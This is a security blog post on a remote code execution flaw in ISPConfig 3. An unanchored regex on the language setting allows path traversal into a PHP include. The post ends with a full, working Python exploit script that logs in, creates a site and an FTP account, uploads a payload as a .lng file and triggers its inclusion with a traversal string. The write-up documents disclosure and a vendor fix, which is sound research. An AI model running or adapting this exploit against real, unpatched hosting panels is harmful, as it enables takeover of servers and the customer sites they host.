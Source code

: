 ```yaml
---

title:  "Bug or Backdoor - Exploiting a Remote Code Execution in ISPConfig"
date:   2018-08-20
categories: security ispconfig exploit vulnerability
---
```


## Introduction

In this blogpost I will write about a suspicion I had which turned out to be false, how regex-es can go wrong and also how to chain logic features to achieve reliable Remote Command Execution. 

I was having a coffe with one of my friends who works at a web-hosting company and talking about the software they use. There I heard about ISPConfig and how many features and secure it was.Since I had some free time , I decided to have a look at it and managed to find a critical vulnerability in it.


## Finding the vulnerability

I downloaded and installed ISPConfing on a Ubuntu VM and started analyzing the source code.
There were a lot of bad practices in the code, but there were also a lot of checks which made most of the code unexploitable.ISPConfig works as a system which contains clients,
and they can create websites, ftp accounts etc., but all of them are on their own chroot.


The first thing that I do when I audit some software is to find out what the attack surface is, and what kind of bugs I want to find.  Seeing this kind of architecture I decided to audit the code that was exposed from a client user. So I started auditing it , and after a lot of failed attempts because of the aggressive checks done by ISPConfig, I found something interesting in the ```user_settings.php ``` file.

On almost any file there is a call to ``` include ISPC_ROOT_PATH.'/web/login/lib/lang/'.$_SESSION['s']['language'].'.lng';``` Searching a little bit of where this value was initialized I found the source code below.

```php
 if(preg_match('/[a-z]{2}/',$_POST['language'])) {
            $_SESSION['s']['user']['language'] = $_POST['language'];
            $_SESSION['s']['language'] = $_POST['language'];
        } else {
            $app->error('Invalid language.');
        }

```
And I was like: "Come on , not regex checks again."

But after reading the regex I noticied a flaw in the logic. The problem is that every string that contains two [a-z] characters will match the regex, and there were no further checks for path traversal attacks.

This was very strange since all of the regexes in the code had the ``` ^ regex-pattern $``` which only matched if the entire string matched the pattern not only a part of it.

Seeing this I was suspicious if this was a backdoor and not some random flaw, but after talking with Till (Maintainer of ISPConfig) he told me that it wasn't the case and the code dated back as the first version of ISPConfig 3 and it was something that was missed during the internal audits.

## Exploiting the vulnerability 

From the analysis now we have a directory traversal which can be abused for local file inclusion attacks.

Since in the new versions of php we can not use null byte injections, either a path-truncation attack but we can create a ftp-account, upload the file we want to include with ```.lng ``` extension at our path and the code will get executed as the ispconfig account and not as our chroot-ed account.


So the idea of the exploit is like this :

1. Create a Site
2. Create an FTP Account
3. Disclose the current path of the FTP upload directory.
4. Upload the payload to our directory.
5. Include the uploaded payload.
6. RCE Achieved !!!

I wrote an exploit for this bug, which automatically did all the steps above by itself.
Below is an image of the exploit in action.

![Exploiting the vulnerability](/images/isp-config-exploit.png)

## Closing remarks

This was a nice bug to find and could have been missed very easily.
An important thanks goes to Till Brehm who acknoledged the vulnerability and fixed it in 1 day, which is impressive.

You can find more details on how to update [here](https://www.ispconfig.org/blog/ispconfig-3-1-13-released-important-security-bugfix/).

# Exploit code

```python
import requests
import ftplib
import json
import time
from requests.packages.urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)


host = "REPLACE_IP:8080"
username = "REPLACE_Username"
password = "REPLACE_Password"

exp = requests.session()
user_agent = 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:57.0) Gecko/20100101 Firefox/57.0'
ftp_username = "randomusr1"
domain = "pwnerrr.com"
site_id = 1
payload_name = "pwned1"
path = ""



def login():
	r = exp.post('https://%s/login/index.php' % host,data={'username':username,'password':password,'s_mod':'login','s_pg':'index'},verify=False)
	if(r.text.find("wrong")>0):
		print "[-] Incorrect credentials [-]"
	else:
		print "[+] Logged in Succesfully [+]"


def createSite():
	
	r = exp.get('https://%s/sites/web_vhost_domain_edit.php' % host,verify=False)
	_csrf_key = r.text.split('name="_csrf_key" value="')[1].split('"')[0]
	_csrf_id = r.text.split('name="_csrf_id" value="')[1].split('"')[0]
	phpsessid = r.text.split('name="phpsessid" value="')[1].split('"')[0]
	r = exp.post('https://%s/sites/web_vhost_domain_edit.php' % host,data={'server_id':1,'ip_address':'*','ipv6_address':'','domain':'%s' % domain,'hd_quota':1024,'traffic_quota':1024,'subdomain':'www','php':'no','fastcgi_php_version':'','active':'y','id':'','_csrf_id':'%s' % _csrf_id,'_csrf_key':'%s' % _csrf_key,'next_tab':'','phpsessid':'%s' % phpsessid},verify=False)
	pass

def createFtp():
	global site_id
	r = exp.get('https://%s/sites/ftp_user_edit.php' % host,verify=False)
	print "[+] Getting IDSof the sites [+]"
	temp_array = r.text.split('<option value=')
	nr_sites = len(temp_array)
	print "[+] Number of sites %d [+]" % (int(nr_sites) - 1)
	# Find the latest created site by checking the ID.
	max_id = -9999

	for i in range(1,nr_sites):
		temp = int(temp_array[i].split('>')[0].replace("'",""))
		if(temp > max_id):
			max_id = temp
	site_id = max_id
	print "[+] Newly created site id is : %d [+]" % site_id
	_csrf_key = r.text.split('name="_csrf_key" value="')[1].split('"')[0]
	_csrf_id = r.text.split('name="_csrf_id" value="')[1].split('"')[0]
	phpsessid = r.text.split('name="phpsessid" value="')[1].split('"')[0]
	r = exp.post('https://%s/sites/ftp_user_edit.php' % host,data={'parent_domain_id':site_id,'username':'%s' % ftp_username,'password':'%s' % password,'repeat_password':'%s' % password,'quota_size':1024,'active':'y','id':'','_csrf_id':'%s' % _csrf_id,'_csrf_key':'%s' % _csrf_key,'next_tab':'','phpsessid':'%s' % phpsessid},verify=False)
	print "[+] Created FTP Account [+]"
	pass


def uploadPayload():
	ftp = ftplib.FTP(host.split(":")[0])
	ftp.login(username+ftp_username, password)
	ftp.cwd("web")
	ftp.storlines("STOR %s.lng" % payload_name,open("test.txt"))
	print "[+] Payload %s uploaded Succesfully [+]" % payload_name
	pass

def waitTillCreation():
	while 1:
		print "[+] Trying [+]"
		r = exp.get('https://%s/datalogstatus.php' % host,verify=False)
		temp = json.loads(r.text)
		if(temp["count"] == 0):
			print "[+] Everything created .... [+]"
			return
		time.sleep(5)

def getRelativePath():
	
	global path

	r = exp.get('https://%s/sites/web_vhost_domain_edit.php?id=%d&type=domain' % (host,site_id),verify=False)
	path = r.text.split('Document Root</label>')[1].split('<div class="col-sm-9">')[1].split('<')[0]
	path += "/web/" + payload_name
	print "[+] Uploading payload in %s [+]" % path

def triggerVuln():
	r = exp.get('https://%s/tools/user_settings.php' % host,verify=False)
	_csrf_key = r.text.split('name="_csrf_key" value="')[1].split('"')[0]
	_csrf_id = r.text.split('name="_csrf_id" value="')[1].split('"')[0]
	phpsessid = r.text.split('name="phpsessid" value="')[1].split('"')[0]
	user_id = r.text.split('name="id" value="')[1].split('"')[0]
	r = exp.post('https://%s/tools/user_settings.php' % host,data={'passwort':'','repeat_password':'','language':'../../../../../../../../../../../../../..%s' % path,'id':'%s' % user_id,'_csrf_id':'%s' % _csrf_id,'_csrf_key':'%s' % _csrf_key,'next_tab':'','phpsessid':'%s' % phpsessid},verify=False)
	r = exp.get('https://%s/index.php'% host,verify=False)
	print r.text

login()
createSite()
createFtp()
getRelativePath()
waitTillCreation()
uploadPayload()
triggerVuln()

```
